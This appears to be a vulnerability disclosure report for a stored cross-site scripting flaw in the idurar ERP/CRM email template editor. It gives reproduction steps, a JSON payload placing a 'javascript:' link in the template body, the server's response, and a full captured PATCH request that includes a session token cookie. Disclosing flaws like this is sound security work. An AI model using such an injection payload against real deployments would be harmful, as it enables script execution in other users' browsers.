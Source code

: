 # Description
It was observed to be able to preform stored XSS via the edit email template functionality. 

 # Proof of Concept
1. Download and run the application locally with instructions from the repo https://github.com/idurar/erp-crm/tree/master#getting-started
2. Log in to the app and navigate to http://localhost:3000/email
3. Modify an email template, and proxy the traffic through burp. Send the request to repeater
4. Modify the request body to match the below 
```
{"emailSubject":"Password Reset  From Idurar","emailBody":"<p>email_reset_password_default</p><p><br></p><p><a href=javascript:alert(1)>xss</a></p>"}
```
5. Send the request and you should see the following response:
```
{"success":true,"result":{"_id":"651c9f1bad0b562caa0f1166","emailKey":"email_reset_password_default","emailName":"Password Reset Email","emailVariables":["name"],"emailBody":"<p>email_reset_password_default</p><p><br></p><p><a href=javascript:alert(1)>xss</a></p>","emailSubject":"Password Reset  From Idurar","language":"en","removed":false,"enabled":true,"created":"2023-10-03T23:09:15.552Z","updated":"2023-10-03T23:09:15.552Z","__v":0},"message":"we update this document by this id: 651c9f1bad0b562caa0f1166"}
```
6. Navigate to http://localhost:3000/email/read/651c9f1bad0b562caa0f1166 (651c9f1bad0b562caa0f1166 being the id of the email template)
7. Xss triggers when clicking on the link


![alt text](https://github.com/wbowm15/jubilant-enigma/blob/main/xss%20payload.png?raw=true "Logo Title Text 1")

![alt text](https://github.com/wbowm15/jubilant-enigma/blob/main/xss%20triggered.png?raw=true "Logo Title Text 1")


## POC Request
```Request:
PATCH /api/email/update/651c9f1bad0b562caa0f1166 HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:3000/
Content-Type: application/json
Content-Length: 149
Origin: http://localhost:3000
Connection: close
Cookie: _xsrf=2|1c005387|4ee8a1afa66476bc93df90a6262a0feb|1696374989; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY1MWM5ZjFhYWQwYjU2MmNhYTBmMTEzYyIsImlhdCI6MTY5NjM3NjQ3NCwiZXhwIjoxNzI3OTEyNDc0fQ.l28clN7Zs3c8y0mnQShfqjIfHUEg_JJGZQfQSJCC-oI
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site

{"emailSubject":"Password Reset  From Idurar","emailBody":"<p>email_reset_password_default</p><p><br></p><p><a href=javascript:alert(1)>xss</a></p>"}
```
